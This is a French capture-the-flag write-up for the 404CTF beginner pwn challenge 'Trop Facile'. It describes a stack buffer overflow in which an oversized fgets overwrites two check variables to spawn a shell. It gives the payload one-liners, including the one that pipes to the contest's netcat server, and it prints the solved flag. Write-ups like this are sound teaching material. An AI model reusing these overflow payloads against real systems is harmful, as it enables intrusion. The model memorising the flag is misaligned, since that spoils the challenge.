 # Trop Facile



- Category: `Pwn`
- Points: `100` => `100`
- Difficulty: Intro
- Solves: `300`


**Description**

> Agent, suite à une mission périlleuse, vos collègues ont réussi à s'emparer d'un binaire s'exécutant sur une des machines de Hallebarde. Après une analyse poussée, ils ont réussi à extraire ce qui semblait être la meilleure version du code source. Vous êtes chargé de la dernière étape : essayez d'exploiter le binaire pour en tirer quelque chose.
>
>nc challenge.404ctf.fr 32458
>


**Attachments**

- `compromis.c, compromis`

### :book: Introduction

 Etant donne que c'etait mon tout premier chall de pwn c'etait plutot interessant et assez rapide a faire.

**Recon**
![home](![image](https://user-images.githubusercontent.com/64932654/167711362-83b80e2f-f083-4199-ac3a-598aba2f2f82.png))
- Le code source est relativement simple:
    - **Il y a une variable buf de 40bytes qui prend comme valeur un fgets de 49 bytes l'input**
    - **Une valeur check qui est egal a "0xcafebebe"**
    - **Une valeur key qui est egal a "0xdeadbeef"**
    - **On remarque que si key est egal a "0xcafebebe" et check a "0xdeadbeef" un shell se lance**
Il faut donc depasser sur les variables key et check pour ouvrir un shell.




En regardant un peu on peut voir que la fonction fgets recupere 48 bytes (qui vont donc faire depasser la variable buf sur key et check
Donc en theorie si on rentre en input ```python -c 'print("A"*40+"\xef\xbe\xad\xde\xbe\xbe\xfe\xca")' | ./compromis``` la pile devrait ressembler a ca: 
![pile](https://github.com/Numb3rsProprety/404CTF/blob/main/trop-facile/pile1.PNG)
On a donc reussi a depasser sur les variables check et key.
En appliquant: 
![shell](https://github.com/Numb3rsProprety/404CTF/blob/main/trop-facile/shellobtenu.PNG)
On obtient bien un message de reussite mais le shell ne reste pas.
Pour garder le controle sur l'entree standard il suffit d'executer ```(python -c 'print("A"*40+"\xef\xbe\xad\xde\xbe\xbe\xfe\xca")';cat) | ./compromis```
On arrive maintenant a executer des commandes :)

### :arrows_counterclockwise: Exploitation
Il nous suffit maintenant simplement d'executer la meme commande mais en redirigeant le pipe vers le serveur :
```python -c 'print("A"*40+"\xef\xbe\xad\xde\xbe\xbe\xfe\xca")';cat) | nc challenge.404ctf.fr 32458```
![flag](https://github.com/Numb3rsProprety/404CTF/blob/main/trop-facile/flag.PNG)



```

Flag: `404CTF{C_7r0P_F4C113_D3_PWN_14_H411384rD3}`


```

